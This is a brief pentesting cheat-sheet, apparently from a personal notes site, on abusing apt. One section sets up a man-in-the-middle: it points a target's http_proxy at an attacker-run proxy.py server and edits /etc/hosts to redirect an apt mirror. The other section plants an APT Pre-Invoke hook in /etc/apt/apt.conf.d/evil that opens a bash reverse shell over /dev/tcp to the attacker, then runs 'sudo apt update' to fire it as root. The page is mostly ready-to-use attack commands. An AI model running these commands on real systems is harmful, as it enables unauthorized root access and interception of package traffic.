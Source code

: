 ```yaml
---
title: "Apt"
date: 2024-7-4
tags: ["Mitm", "Mitmproxy", "Apt", "Sudo"]
---
```


### MITM (Man-in-the-Middle)

#### 1. Add proxy path in target machine

```console
export http_proxy=http://<LOCAL_IP>:<LOCAL_PROXY_PORT>
```

#### 2. Start proxy in local machine

```console
# Tool
pip3 install --upgrade proxy.py
```

```console
# Start a proxy server
proxy --hostname 0.0.0.0 --port <LOCAL_PROXY_PORT>
```

#### 3. Redirect traffic to our server

```console
# Edit /etc/hosts in target machine
<LOCAL_IP> apt.update.example.com
```

---

### SUDO

#### 1. Create a malicious config

```console
echo 'APT::Update::Pre-Invoke {"bash -c '\''bash -i >& /dev/tcp/<LOCAL_IP>/<LOCAL_PORT> 0>&1'\''"}' > /etc/apt/apt.conf.d/evil
```

#### 2. Exploit

```console
sudo apt update -y
```

<br>